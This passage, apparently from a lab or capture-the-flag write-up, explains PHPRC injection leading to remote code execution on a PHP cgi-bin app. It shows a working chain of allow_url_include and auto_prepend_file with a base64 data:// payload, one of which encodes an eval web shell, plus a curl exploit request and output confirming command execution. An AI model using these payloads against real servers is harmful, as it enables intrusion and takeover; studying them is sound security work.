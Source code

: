 Hence we gain arbitrary read on the machine.

### Fileless RCE
Now in the standard Juniper RCE article, the Juniper Firewall allowed the service to pass the PHP configuration environment variables to the PHP interpreter. This allowed the attacker to specify a custom PHP configuration file that would allow them to execute arbitrary code. 

By using the above logic, we can be able to achieve remote code execution by specifying another PHP configuration rule:
```
allow_url_include
```
- The above rule allows us to enable **wrappers** on the PHP instance. This allows us to specify PHP executable files as base64 encoded data passed to `require` function.


We chain the 2 rules to achieve this:
```php
allow_url_include = 1 // This sets it to true
auto_prepend_file="data://text/plain;base64,PD9waHAgZXZhbCgkX1BPU1RbJ2MnXSk7Pz4=" // This process the executable PHP code and passes it to the interpreter
```

When the server reads the PHP configuration file, it will execute the PHP code specified in the `auto_prepend_file` directive. This will allow us to use the wrapper `data://` to specify the PHP code we want to execute. We will use the `base64` encoding to encode the PHP code and hence execute it.

Let us look at the request:
```bash    
php > $b64 = base64_encode('<? shell_exec("id > /tmp/1"); ?>');
php > $data="data://text/plain;base64,$b64";
php > echo urlencode("allow_url_include=1\nauto_prepend_file=\"$data\"");
allow_url_include%3D1%0Aauto_prepend_file%3D%22data%3A%2F%2Ftext%2Fplain%3Bbase64%2CPD8gc2hlbGxfZXhlYygiaWQgPiAvdG1wLzEiKTsgPz4%3D%22


########### CURL
╰─[:)] % curl 'localhost/cgi-bin/app.cgi?PHPRC=/dev/fd/0' --data "data=allow_url_include%3D1%0Aauto_prepend_file%3D%22data%3A%2F%2Ftext%2Fplain%3Bbase64%2CPD8gc2hlbGxfZXhlYygiaWQgPiAvdG1wLzEiKTsgPz4%3D%22"

<pre>
Deprecated: Directive &#039;allow_url_include&#039; is deprecated in Unknown on line 0
{&quot;name&quot;:&quot;Stranger&quot;,&quot;year&quot;:&quot;2025&quot;}</pre>
```
- We have blind RCE for now! Let us confirm on the container if the file was written.

```bash
root@2309e8a13aed:/www/application# ls -la /tmp
total 12
drwxrwxrwt 1 root     root       2 Mar  6 15:32 .
drwxr-xr-x 1 root     root      24 Mar  6 15:14 ..
-rw-r--r-- 1 www-data www-data  54 Mar  6 15:32 1
```
- The file was written successfully. We can now use this to execute arbitrary code on the server and this may be what the attacker used to gain access to the server.
